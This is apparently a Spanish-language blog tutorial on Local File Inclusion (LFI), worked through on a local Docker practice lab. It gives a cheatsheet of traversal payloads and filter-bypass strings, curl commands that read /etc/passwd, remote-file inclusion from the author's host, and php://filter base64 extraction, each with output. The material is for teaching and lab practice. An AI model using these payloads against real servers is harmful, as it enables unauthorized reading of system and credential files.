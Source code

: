 ```yaml
---
title: Laboratorio - LFI
author: cotes
date: 2023-09-07 17:51:00 +0800
categories: [Laboratoriom LFI]
tags: [LFI, OWASP]
math: true
mermaid: true
image:
  path: /assets/images/Laboratorios/lfi/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: LFI Logo
---
```


LFI (Local File Inclusion) es una vulnerabilidad web, de la cual nos podemos aprovechar para leer archivos de la máquina objetivo y en el mejor de los casos, para los atacantes, llegar a derivarlo a un RCE (Remote Code Execution)

## Cheatsheet 👩‍💻

|   **LFI**                | **Descripción**      |
|:----------------------------:|:-----------------|
| **`../../../../../../../../`** | Payload Básico. |
| **`....//....//....//....//`** | Bypass Posible Filtro. |
| **`/etc/./////.///hosts`**  \  **`/et?/?o?t?`** | Bypass Expresiones Regulares. |
| **`/etc/host%00`** \ **`/etc/passwd/.`** | Bypass Concatenación de Extensiones. |
| **`php://filter/convert.base64-encode/resource=[Path]`** | Wrapper de Codificación en Base64. 
| **`%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`** | Bypass Posible Filtro. (Se urlencodea la cadena `../../../etc/passwd`) |



> Para practicar esta vulnerabilidad desplegaremos un **laboratorio con Docker:** `docker pull jnazario/lfi-labs`
{: .prompt-info }


* Como nos creó una imagen la ejecutamos haciendo por **Port Forwarding**: **`docker run -dit -p 80:80 <Image ID>`**


## LFI Básico ⚾

1. Para el primer laboratorio **LFI-1** nos dirigimos a: `http://localhost/LFI-1/`

![](/assets/images/lfi/lfi1.png)
   * Vemos que existe un parámetro **page** por el cual podemos indicar una página.
   * Si el **input** del usuario no se encuentra correctamente sanitizado, podemos llegar a leer archivos alojados en el servidor (**archivos de configuración**, **archivos críticos**, **etc**)

2. Intentaremos leer el archivo **`/etc/passwd`**

```bash
curl -s -X GET "http://localhost/LFI-1/index.php?page=/etc/passwd"

<SNIP>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
<SNIP>
```

### Laboratorio **LFI-3**

* Dependiendo del uso de determinadas librerías para incluir archivos, podremos leer archivos locales o incluir archivos de servidores externos.

    ![](/assets/images/lfi/functions.png)

* Al usar **`file_get_contents()`** podemos **leer archivos locales y externos**

* **Leer Archivos Locales:** `http://localhost/LFI-3/index.php?file=/etc/passwd`
    ```
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    ```

* **Leer Archivos Remotos:**

    a. Primeros montamos un servidor **HTTP** con Python con un archivo **test.txt** que tenga el contenido `Hola`.

    * **Comando:** `python3 -m http.server 8080`

    b. Realizamos una petición con **cURL** a nuestro servidor:
    * **Comando:** `curl -s -X GET "http://localhost/LFI-3/index.php?file=http://<IP Máquina Host>:8080/test.txt"`

    * **Output**
        ```
        <SNIP>
        Hola
        ```
        > Vemos el contenido de nuestro archivo **test.txt** de nuestra máquina host.
         
### Laboratorio **LFI-5**
Al aplicar el **payload básico** veremos que no nos funciona, esto puede deberse a que se aplique un filtro mediante el cual eliminen `../`, este filtro puede **bypassearse**, si no se encuentra aplicado correctamente.

```php
<?php
$cadena = "../directorio/archivo.txt";
$reemplazo = "";
$nuevaCadena = str_replace("../", $reemplazo, $cadena);
echo $nuevaCadena; # nuevaCadena = directorio/archivo.txt
?>
```

Si nos fijamos bien en el código anterior, veremos que se elimina la coincidencia **`../`**, pero, no se aplica de manera recursiva, es decir, solo lo elimina una vez.

En caso de indicarle **`....//`** al eliminar una única vez **`../`** la cadena final será **`../`**, así que ya encontramos una forma de **bypassear** el filtro posiblemente aplicado.

* **Comando:** `curl -s -X GET "http://localhost/LFI-5/index.php?file=....//....//....//....//....//....//....//....//etc/passwd"`

* **Output**

```
<SNIP>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
```

### **Usando Wrappers de PHP** 🍬
A pesar de que en todos los casos anteriores obtenemos el archivo **/etc/passwd** exitosamente, existirán casos en los que representar archivos con una estructura con muchas líneas o caracteres especiales puede corromper la muestra del mismo, haciendo que no nos sea posible leer archivos. Para evitar este tipo de problemas podemos representar la información en **base64**

En el laboratorio **LFI-1** podemos obtener el contenido encodeado en base64 usando **php://filter/encode.base64-convert/resource=[Path Archivo]**

* **Comando:** `curl -s -X GET "http://localhost/LFI-1/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd"`

* **Output**

    ```
    <SNIP>
    cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25v<SNIP>
    ```

Ahora, podemos decodear la cadena anterior y ver el contenido original

* **Comando:** `echo -n "cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3N<SNIP>" | base64 -d > lfi.txt`


![](/assets/images/lfi/text.png)